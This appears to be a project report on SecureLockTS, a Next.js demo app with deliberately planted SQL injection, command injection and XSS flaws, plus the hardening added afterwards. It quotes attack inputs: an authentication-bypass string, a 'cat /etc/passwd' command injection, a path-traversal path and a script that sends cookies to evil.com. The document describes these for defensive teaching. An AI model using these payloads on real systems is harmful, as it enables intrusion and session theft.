March 22, 2026
Project Title: SecureLockTS - A Self-Lockdown Application for Real-Time Attack Detection and Automated System Protection
Original Proposal Context: Contemporary web apps are increasingly vulnerable to cybersecurity threats, especially injection attacks and authentication bypasses which are top-listed in the OWASP Top 10:2025. Because conventional strategies tend to rely on external surveillance rather than built-in active defenses, our problem statement identified that many applications lack internal mechanisms to identify and halt attacks dynamically. Thus, our proposed objective was to design a self-lockdown web application in TypeScript that acts as both a vulnerable sandbox and a hardened defensive system, triggering automated system lock-outs upon detecting suspicious inputs.
Current Summary: Building strictly on that proposal, SecureLockTS has been successfully constructed as a Next.js (TypeScript) web application designed to demonstrate and defend against these exact vulnerabilities in real time. We have exceeded our initial algorithmic detection proposal by embedding a comprehensive 10-layer Web Application Firewall (WAF), an AI Sentinel powered by Google Gemini 2.5 Flash for behavioral payload analysis, per-IP attacker isolation, and a self-healing lockdown mechanism that successfully recovers from coordinated DDoS attacks.
To demonstrate the security system in a realistic context, we built a fully functional patriotic blog website styled after U.S. government websites like USAJobs.gov. The blog serves as the "dummy" application that our security system protects. It features a navy blue and white color scheme, serif typography (Merriweather), and professional government-inspired aesthetics.

Figure 1: Application homepage - Government-styled blog with hero section, article cards, and official USAJobs-inspired design

Figure 2: Blog post page - "The Star-Spangled Banner" with all 4 verses displaying in a navy blue section

Figure 3: Blog post page - "Why We Love America" with themed sections on Freedom, Innovation, Diversity, and Generosity
Three core OWASP Top 10 vulnerabilities were deliberately introduced into the application and subsequently hardened with secure coding practices:
| Vulnerability | OWASP Category | DREAD Score | Risk Level |
|---|---|---|---|
| SQL Injection (Authentication Bypass) | A03:2021 - Injection | 42/50 | CRITICAL |
| OS Command Injection | A03:2021 - Injection | 48/50 | CRITICAL |
| Cross-Site Scripting (Reflected XSS) | A03:2021 - Injection | 36/50 | HIGH |
The following critical code modules have been developed, analyzed, and hardened:
' OR 1=1-- payloads. Hardened with parameterized queries, strict input validation (length limits, type checking), safe JSON parsing, and zero information leakage (generic error messages prevent user enumeration).execFile() instead of exec(), per-command argument limits, 64KB maxBuffer, and sanitized error output.Tools Used:
Build Output: 9 static pages pre-rendered, 8 dynamic server-rendered routes, 1 middleware proxy. No hardcoded secrets in source code (API key stored in .env.local). All user-facing error messages sanitized to prevent information leakage.
SQL Injection - How it could be exploited: An attacker submits ' OR 1=1-- as a username in the login form. Without parameterized queries, this modifies the SQL query to return all users, bypassing authentication entirely. Impact: Complete authentication bypass, unauthorized access to all user accounts, potential data exfiltration. DREAD Score: 42/50 (CRITICAL).
Command Injection - How it could be exploited: An attacker submits ; cat /etc/passwd as a system command. Without input sanitization, the shell interprets the semicolon as a command separator, executing arbitrary OS commands. Impact: Full server compromise, remote code execution, data theft, lateral movement. DREAD Score: 48/50 (CRITICAL).
XSS - How it could be exploited: An attacker injects <script>document.location='https://evil.com/?c='+document.cookie</script> into a form field. Without HTML escaping, the browser executes the script, stealing session cookies. Impact: Session hijacking, credential theft, phishing, defacement. DREAD Score: 36/50 (HIGH).
Our mitigation strategy transcends mere patching; it embodies a holistic, defense-in-depth architecture designed for zero-trust environments. Recognizing that user input is inherently adversarial, we implemented a zero-tolerance policy across all parsing boundaries. For SQL injection, we moved entirely away from string-concatenation-based database queries, adopting strictly parameterized Prepared Statements via the native SQLite3 driver. This architectural shift guarantees that input payloads are treated exclusively as literal string literals, mathematically eliminating the possibility of logic subversion regardless of the payload complexity.
Similarly, for OS Command Injection, we fundamentally altered the execution paradigm. Instead of relying on the dangerously permissive child_process.exec(), which spins up a full system shell capable of interpreting metacharacters like semicolons and pipes, we transitioned strictly to child_process.execFile(). This directly invokes the target binary, treating all subsequent inputs strictly as command-line arguments rather than evaluable bash syntax. Combined with a hardcoded whitelist of permitted commands and strict maximum buffer limits (64KB), the application is now impervious to arbitrary command execution attempts.
| Vulnerability | Mitigation | Status |
|---|---|---|
| SQL Injection | Parameterized queries, input validation, length limits, AI analysis | ✅ Implemented |
| Command Injection | Command whitelist, execFile(), argument limits, buffer limits | ✅ Implemented |
| XSS | HTML entity escaping (default), input length limits, CSP headers | ✅ Implemented |
| All Routes | 10-layer WAF middleware on every page and API, 7 security headers | ✅ Implemented |
| AI Sentinel | Gemini 2.5 Flash behavioral analysis on all API payloads | ✅ Active |
| Per-IP Isolation | Individual attackers banned after 3 strikes; global lockdown only for DDoS | ✅ Implemented |
| Self-Healing | Automatic 5-minute recovery from lockdown; admin manual reset available | ✅ Implemented |
The Sentinel Core security monitoring dashboard is restricted to administrators only. Unauthenticated users are shown an "Access Restricted" page with a redirect to the login portal. This demonstrates the principle of Least Privilege - only authorized personnel can view security logs and system status.

Figure 4: Sentinel Core access denied - Non-admin users see "Access Restricted" with a "Sign In as Admin" redirect
Figure 5: Administrator Sign In portal - Navy blue header, clean form design, security monitoring notice

Figure 6: Admin authentication in progress - Demonstrating the login flow with "Authenticating..." feedback
After logging in as administrator, the Sentinel Core dashboard provides real-time visibility into the system's security posture. It displays the Core Integrity status, Threat Intel Matrix (anomalies, blocked attacks, self-heals, banned IPs), CPU and memory load, and a live syslog feed showing every detected attack with timestamps, source IPs, and DREAD risk scores.

Figure 7: Sentinel Core dashboard (Government Light Theme) - Core Integrity status "ALERT" after catching 3 anomalies. Threat Intel Matrix shows 3 blocked attacks and 1 permanently banned IP.

Figure 8: Sentinel live feed - Detailed view showing the exact moment the attacker IP was permanently banned after triggering 3 SQL injection alerts (DREAD 8.8).
The Sentinel dashboard's Syslog Live Feed provides real-time visibility into all network security events. As demonstrated in the system logs, the WAF is capable of detecting and mitigating a wide variety of attack vectors dynamically:
../../etc/passwd) and XSS, to Command Injection payloads.
Figure 9: Sentinel live feed showing the detection of diverse threats alongside a severe Global Lockdown event and subsequent Self-Heal cycle.
A core feature of the SecureLock perimeter defense is its ability to identify volumetric and coordinated attacks. When the system detects attacks originating from 10 or more distinct IP addresses exceeding a 50-attack threshold within a short window, it enacts a GLOBAL LOCKDOWN.
During a global lockdown, the entire application immediately offline for all users, displaying a localized "Service Temporarily Unavailable" intercept screen. This completely protects the database and backend infrastructure from exhaustion.
Once the 5-minute cooldown period expires, the Sentinel initiates a SYSTEM HEALED cycle. The application comes back online automatically for legitimate traffic, while the specific malicious attacker IPs remain permanently banned in the edge firewall.

Figure 10: The public-facing Global Lockdown screen served to all users during a coordinated DDoS attack, showing the auto-recovery countdown.
The AI Sentinel uses Google's Gemini 2.5 Flash model to analyze every API payload. It returns a structured JSON response with three fields: isMalicious (boolean), confidence (0-100%), and reasoning (technical explanation). This provides a second layer of defense that catches obfuscated attacks that bypass static regex patterns.
AI Analysis Flow:
Example AI Response (Blind SQL Injection):
